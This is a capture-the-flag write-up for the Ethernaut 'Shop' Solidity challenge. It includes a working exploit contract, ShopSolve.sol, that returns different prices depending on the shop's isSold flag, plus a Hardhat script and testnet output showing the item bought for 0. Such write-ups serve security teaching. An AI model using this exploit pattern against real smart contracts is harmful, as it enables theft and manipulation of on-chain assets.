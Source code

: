 ```yaml
---
title: Ethernaut \#21 Shop
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Shop challenge writeup
---
```


## Shop

### Challenge

Сan you get the item from the shop for less than the price asked?

#### Things that might help:

* `Shop` expects to be used from a `Buyer`
* Understanding restrictions of view functions


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Background

By the looks of it this challange is a bit akward. It does not seem to accomplish much by design, but after trying to solve it, the point of it is clear. In general it looks a lot like the `Elevator` challange. However, in this case the function is a `view` which means it cannot update the contract state. For the `Elevator` challange the contract state update was used as the main technique to change the return value.

In this case, since the state "cannot" be updated that easily, we could relly on "side-channel" techniques to achieve this such as measuring the remaining gas, or check other state changing variables. In this case such a variable exists and it is the `isSold` variable in the `Shop` contract.

I actually believe that if we where to skip all the compiler checks in solidity (if that is possible), or just write a function in raw EVM assembly, we could possibly bypass the `view` restriction and have a state changing function. However, I did not try this and I'm not sure it would work, I just don't clearly see why it wouldn't.

### Attack

Create a contract that implements the `Buyer` `interface`. This contract should be able to call the `Shop` contract `buy` function and return `100` or `0` for price depending if the `Shop` variable `isSold` is set or not. If the `isSold` is set, it should return `0` otherwise it should return `100`. This way, during the first check, the function will return `100` while at the second check it would return `0`.

* Create a contract that:
  * impelemnts the `Buyer` `interface` but when `price` is called, the price return would depend on the `Shop` contracts `isSold` variable
    * If `isSold` is `true` -> return `0`
    * If `isSold` is `false` -> return `100`
  * implements a `buy` function that triggers the `Shop` contract `buy` function
* Trigger the attacker contract `buy` function

#### ShopSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import "../challenges/Shop.sol";

contract ShopSolve {
    Shop shopContract;

    constructor(address payable _shop) public {
        shopContract = Shop(_shop);
    }

    function buy() public payable {
        shopContract.buy();
    }

    function price() external view returns (uint256) {
        if (shopContract.isSold()) {
            return 0;
        }
        return 100;
    }
}
```

#### shop-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    shopAddress = "0x7B710215cc6901910B2940D2CC8b5758eB7d70B7";
    contract = await ethers.getContractAt("Shop", shopAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ShopSolve = await ethers.getContractFactory("ShopSolve");
    shopSolve = await ShopSolve.deploy(contract.address);
    await shopSolve.deployed();

    console.log("Level address : " + contract.address)
    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())

    // trigger attacker contract buy function
    tx = await shopSolve.connect(account).buy()
    receipt = await tx.wait()

    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/shop-solve.js --network rinkeby
Level address : 0x7B710215cc6901910B2940D2CC8b5758eB7d70B7
Is Sold       : false
Price         : 100
Is Sold       : true
Price         : 0
```

### Success Message

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
